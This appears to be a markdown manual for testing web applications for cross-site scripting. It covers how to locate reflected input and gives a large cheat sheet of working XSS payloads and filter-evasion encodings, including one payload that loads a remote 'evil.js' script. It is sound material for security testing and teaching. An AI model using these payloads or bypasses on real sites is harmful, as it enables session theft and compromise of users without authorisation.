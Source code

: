 # XSS Manual

## Identifying Reflections of User Input

1.  `myxsstestdmqlwp` **Submit this string** as every parameter to every page, targeting only one parameter at a time. Only alphabetical characters.

2.  **Monitor the application's responses** for any appearance of this same string.

3.  **Test both GET and POST** requests. Both the URL query string and the message body.

4.  **Test HTTP request headers.** A common XSS vulnerability arises in error messages, where items such as the _Referer_ and _User-Agent_ headers are copied into the message's contents.

5.  **URL-encode** any special characters, including & = + ; and _space_

## Testing Reflections to Introduce Script

Perform these basic tests on your application:

- Interact with your application. Insert strings that contain HTML and JavaScript metacharacters into all application inputs, such as
  _ forms,
  _ URL parameters,
  _ hidden fields(!),
  _ or cookie values.
- A good test string is `>'>"><img src=x onerror=alert(0)>`.
- If your application doesn't correctly escape this string, you will see an alert and will know that something went wrong.
- Wherever your application handles user-supplied URLs, enter `javascript:alert(0)` or `data:text/html,<script>alert(0)</script>`.
- Create a test user profile with data similar to the test strings above. Use that profile to interact with your application. This can help identify stored XSS bugs.

**Example 1: A Tag Attribute Value**
Suppose that the returned page contains the following:
`<input type="text" name="address1" value="myxsstestdmqlwp">`

Try:
`"><script>alert(1)</script>`
`" onfocus="alert(1)`

**Example 2: A JavaScript String**
If: `<script>var a = 'myxsstestdmqlwp'; var b = 123; ... </script>`
Try:
`'; alert(1); var foo='`
`'; alert(1); //`

**Example 3: An Attribute Containing a URL**
If `<a href="myxsstestdmqlwp">Click here ...</a>`
use the `javascript:` protocol to introduce script directly within the URL attribute.
Try:
`javascript:alert(1);`
`#"onclick="javascript:alert(1)`

### Event Handlers

```
<video src=1 onerror=alert(1)>
<audio src=1 onerror=alert(1)>
<xml onreadystatechange=alert(1)>
<style onreadystatechange=alert(1)>
<iframe onreadystatechange=alert(1)>
<object onerror=alert(1)>
<object type=image src=valid.gif onreadystatechange=alert(1)></object>
<img type=image src=valid.gif onreadystatechange=alert(1)
<input type=image src=valid.gif onreadystatechange=alert(1)
<isindex type=image src=valid.gif onreadystatechange=alert(1)
<script onreadystatechange=alert(1)
<bgsound onpropertychange=alert(1)
<body onbeforeactivate=alert(1)
<body onactivate=alert(1)
<body onfocusin=alert(1)>

<img src=1 onerror="s=document.createElement('script');s.src='//...com/static/evil.js';document.body.appendChild(s);"
```

Use `autofocus` attribute to automatically trigger events that previously required user interaction:

```
<input autofocus onfocus=alert(1)>
<input onblur=alert(1) autofocus><input autofocus>
<body onscroll=alert(1)><br><br>...<br><input autofocus>
```

Event handlers in closing tags:
`</a onmousemove=alert(1)>`

**URLs with #:**
`https://...com/demo/3#'><img src=x onerror=alert(/DOM-XSS/)>`

### Script Pseudo-Protocols

`javascript:`, `data:`, and others

```
<object data=javascript:alert(1)>
<iframe src=javascript:alert(1)>
<embed src=javascript:alert(1)>
<form id=test /><button form=test formaction=javascript:alert(1)>
<event-source src=javascript:alert(1)>
https://...com/frame#data:text/plain,alert('xss')
```

## Bypassing Filters: HTML

Ways in which HTML syntax can be obfuscated to defeat common filters.

`<img onerror=alert(1) src=a>`

**The Tag Name**
`<iMg onerror=alert(1) src=a>`

`<[%00]img onerror=alert(1) src=a>`
`<i[%00]mg onerror=alert(1) src=a>`
In these examples, [%XX] indicates the literal character with the hexadecimal ASCII code of XX. When submitting your attack to the application, generally you would use the URL-encoded form of the character. When reviewing the applica-tion's response, you need to look for the literal decoded character being reflected.

**Space Following the Tag Name**

```
<img/onerror=alert(1) src=a>
<img[%09]onerror=alert(1) src=a>
<img[%0d]onerror=alert(1) src=a>
<img[%0a]onerror=alert(1) src=a>
<img/"onerror=alert(1) src=a>
<img/'onerror=alert(1) src=a>
<img/anyjunk/onerror=alert(1) src=a>
<script/anyjunk>alert(1)</script>
```

**Attribute Names**
`<img o[%00]nerror=alert(1) src=a>`

**Attribute Delimiters**

```
<img onerror=”alert(1)”src=a>
<img onerror=’alert(1)’src=a>
<img onerror=`alert(1)`src=a>
<img/onerror=”alert(1)”src=a>

```

**Attribute Values**

```
<img onerror=a[%00]lert(1) src=a>
<img onerror=a&#x6c;ert(1) src=a>
<iframe src=j&#x61;vasc&#x72ipt&#x3a;alert&#x28;1&#x29; >
<img onerror=a&#x06c;ert(1) src=a>
<img onerror=a&#x006c;ert(1) src=a>
<img onerror=a&#x0006c;ert(1) src=a>
<img onerror=a&#108;ert(1) src=a>
<img onerror=a&#0108;ert(1) src=a>
<img onerror=a&#108ert(1) src=a>
<img onerror=a&#0108ert(1) src=a>

```

**Tag Brackets**

```
%253cimg%20onerror=alert(1)%20src=a%253e
«img onerror=alert(1) src=a»
<<script>alert(1);//<</script>
<script<{alert(1)}/></script>
```

**Using JavaScript Escaping**

```
<script>a\u006cert(1);</script>
<script>eval(‘a\u006cert(1)’);</script>
<script>eval(‘a\x6cert(1)’);</script>
<script>eval(‘a\154ert(1)’);</script>
<script>eval(‘a\l\ert\(1\)’);</script>

```

**Dynamically Constructing Strings**

```
<script>eval(‘al’+’ert(1)’);</script>
<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41));</script>
<script>eval(atob(‘amF2YXNjcmlwdDphbGVydCgxKQ’));</script>

```

**Alternatives to eval**

```
<script>’alert(1)’.replace(/.+/,eval)</script>
<script>function::[‘alert’](1)</script>

```

**Alternatives to Dots**

```
<script>alert(document[‘cookie’])</script>
<script>with(document)alert(cookie)</script>
```
